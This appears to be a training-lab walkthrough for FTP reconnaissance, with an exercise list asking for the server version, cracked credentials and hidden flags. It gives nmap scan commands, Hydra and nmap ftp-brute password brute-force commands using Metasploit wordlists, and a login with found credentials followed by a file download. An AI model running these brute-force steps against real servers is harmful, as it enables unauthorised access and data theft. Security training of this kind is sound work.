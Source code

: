 # FTP (File Transfer Protocol)

# FTP Server Reconnaissance Basics: A Step-by-Step Guide

This guide provides various commands to FTP reconnaisance basics.

### 1. Ping Command

Checks if the target system is reachable:
`ping [target IP]`

### 2. Nmap Command

Performs a network scan to identify open ports and services:
`nmap [target IP]`

### 3. Detailed Nmap Scan

Scans the FTP port (port 21) and identifies the software and operating system:
`nmap [target IP] -p 21 -sV -O`
_Port 21 = default FTP port. Port runs ProFTP 1.3.5a, OS = Linux 2.6.32_

### 4. FTP Client

Connects to the FTP server of the target system:
`ftp [target IP]`

### 5. Hydra Command

Performs a brute-force attack to crack username and password:
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target IP] ftp`
_Tries usernames and common passwords._

### 6. FTP Login and File Download

Logs in with the found credentials and downloads a file:
`ftp [target IP], sysadmin, 654321`
After login:
`ls`
`get secret.txt`

### 7. List Directory Contents

Displays the contents of the current directory:
`ls`

### 8. Display File Contents

Displays the contents of the downloaded file:
`cat secret.txt`

### 9. Nmap Brute-Force Script

Creates a file with the username and performs a brute-force attack with nmap:
`echo "sysadmin" > users`
`cat users`
`nmap [target IP] --script ftp-brute --script-args userdb=/root/users -p 21`


Questions

    1. What is the version of FTP server?
    2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/        unix_passwords.txt       to check if any of these credentials work on the system. List all found credentials.
    3. Find the password of user “sysadmin” using nmap script.
    4. Find seven flags hidden on the server.




